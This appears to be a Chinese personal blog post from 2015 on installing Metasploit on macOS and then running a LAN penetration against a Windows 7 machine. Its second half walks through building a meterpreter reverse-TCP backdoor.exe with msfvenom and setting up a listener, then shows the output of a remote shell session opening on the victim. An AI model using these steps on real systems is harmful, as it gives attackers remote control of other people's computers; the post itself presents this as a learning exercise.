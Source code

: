 ```yaml
---
layout:     post
title:      Metasploit折腾小记
date:       2015-11-08 11:40:25
author:     Hsmouc
summary:    Metasploit在Mac OS上的安装和基础使用    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

- 还是写在文前：怎么说呢，折腾这个东西我的内心是很复杂的。一个美好的用来写模电和概率和大物的周日就这么没了ˊ_>ˋ哎呀，可是人家就是这么执着的跳坑怎么破。还是和以往一样，这篇文章的相关技术仅供学习，千万不要做出一些危险出格的事情。

###Metasploit的安装
这一部分真的是让我的心都碎了，也是最难折腾的。在YouTube上面找了好多视频，永远都是人家一路回车，我一路报错，果然是人品用完的节奏。闲话少说，开始安装，我的系统是Mac OS X 10.10.5，一般大家都是用BT5干这种活啦。

1. 从Github上克隆Metasploit项目    
选一个合适的目录，然后在终端里面输入:
{% highlight shell %}
git clone git@github.com:rapid7/metasploit-framework.git
{% endhighlight %}
之后把终端cd到你刚才选择的目录，输入:
{% highlight shell %}
msfconsole
{% endhighlight %}
报错就对了，因为你没有装蛋疼的依赖环境。
2. 安装依赖环境  
2.1 *Ruby*  
因为我是Mac系统又安装了Xcode，所以已经有了Ruby 1.8的环境，但是后续安装会要求更高的版本，所以我们先更新一下Ruby，推荐使用rvm，具体参见[脉脉不得语的技术博客](http://www.inferjay.com/blog/2013/05/09/how-to-install-ruby-1-dot-9-3-in-mac-osx/)  
2.2 *Homebrew* 
这玩意是个OS X的软件管理器，相当好用，我们使用Ruby命令来安装它，下面的安装会用到。
{% highlight ruby %}
ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
{% endhighlight %}
我们作死运行下Metasploit，发现还是报错，具体报什么错我也忘记了（哭）。     
2.3 *Nmap*   
强大的嗅探器，使用我们刚刚装好的homebrew安装：
{% highlight shell %}
brew install nmap
{% endhighlight %}    
2.4 *bundler*  
就是这货坑死人不偿命，按照教程来说，只需要简单的一句指令：
{% highlight shell %}
gem install bundler
{% endhighlight %}
我猜你们一定会在安装到nokogiri的时候报错，事实就是这玩意需要自己手动安装，报错提示libiconv is missing，解决方案：
{% highlight shell %}
brew update
xcode-select --install
brew link libiconv--force
gem install nokogiri -- --with-iconv-dir=/usr/local/Cellar/libiconv/1.14
{% endhighlight %}
再次使用gem install bundler
3. 安装postgresql并配置。   
这个我不会-_-#，因为我发现不配置数据库的话Metasploit已经可以使用了，不用数据库的视频教程见[YouTube](https://www.youtube.com/watch?v=C2CEQupM2PM).我基本上是按照他的顺序安装的。   
关于配置数据库的教程：[RickGrey](http://www.freebuf.com/articles/system/36924.html)(中文教程)、[Darkoperator](http://www.darkoperator.com/installing-metasploit-framewor/)(英文教程)。  
其他的相关问题可以在官方的论坛[RAPID7COMMUNITY](https://community.rapid7.com/community/metasploit)上交流。   

###一次简单的内网渗透
- 工具：Mac OS X with Metasploit(Attacker)  Windows 7(Victim)
- 原理：通过msfpayload生成后门exe然后上传到目标机器上执行，通过本地监听获得meterpreter shell，并得到shell
####生成一个backdoor.exe
Windows:
{% highlight shell %}
sudo ./msfvenom windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > backdoor.exe
{% endhighlight %}
几点说明：如果被攻击的计算机和你在同一局域网下，可以使用LAN IP，用ifconfig即可，如果是WAN攻击则使用WAN IP即可。     
如果运行sudo ./msfvenom终端提示你安装bundler，自求多福吧，我也不知道怎么解决的。耗了一下午反复装了无数遍最后居然莫名其妙的好了。  
这里使用的msfvenom是因为软件更新，原先的msfpayload功能已经集成在了msfvenom里了。
####上传backdoor.exe并获得shell
直接上指令：  
{% highlight shell %}
$ msfconsole
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > exploit
{% endhighlight %}
在Victim的计算机上双击backdoor.exe，顺利的话会这样：
{% highlight shell %}
[*] Started reverse handler on 192.168.1.3:4444
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:54411) at 2015-11-08 22:07:07 +0800
{% endhighlight %}
然后输入shell尽情玩耍吧……   
附上一张截图：
![](http://ww4.sinaimg.cn/mw690/005WMcFzjw1exupqph2nvj313w0bxack.jpg)
由图可见我完全接管了Windows 7的shell，下面就可以随心所欲了23333
###小结
对于linux来说，遇到错误真的就是Google，复制命令然后祈祷了。装什么东西都要搞一大堆依赖包，不过总体来说还是比较人性化，大多数时候终端会告诉你你需要装什么。Metasploit功能强大，最近在测试的只是基于LAN下的计算机，更深入的问题留作以后探讨。     
最后用BackTrack Linux上的一句话来作结：
>The quieter you become,the more you are able to hear...